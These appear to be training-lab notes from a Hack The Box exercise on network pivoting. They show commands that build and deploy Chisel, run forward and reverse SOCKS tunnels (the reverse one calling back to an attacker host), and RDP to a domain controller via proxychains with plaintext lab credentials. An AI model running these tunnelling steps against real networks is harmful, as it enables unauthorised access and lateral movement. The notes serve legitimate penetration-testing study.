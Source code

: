 ### Installing Chisel
#### Cloning Chisel

```shell-session
Tachipy@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```
#### Building the Chisel Binary

```shell-session
Tachipy@htb[/htb]$ cd chisel
go build
```
#### Transferring Chisel Binary to Pivot Host

```shell-session
Tachipy@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```
### Chisel Tunnel

#### Running the Chisel Server on the Pivot Host
```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```
#### Connecting to the Chisel Server

```shell-session
Tachipy@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
```
#### Editing & Confirming proxychains.conf
```shell-session
Tachipy@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```
#### Pivoting to the DC

```shell-session
Tachipy@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
### Reverse Chisel Tunnel
#### Starting the Chisel Server on our Attack Host
```shell-session
Tachipy@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```
#### Connecting the Chisel Client to our Attack Host
```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```
#### Editing & Confirming proxychains.conf
```shell-session
Tachipy@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

#### RDP connect
```shell-session
Tachipy@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Better solution: ligolo-ng

https://github.com/nicocha30/ligolo-ng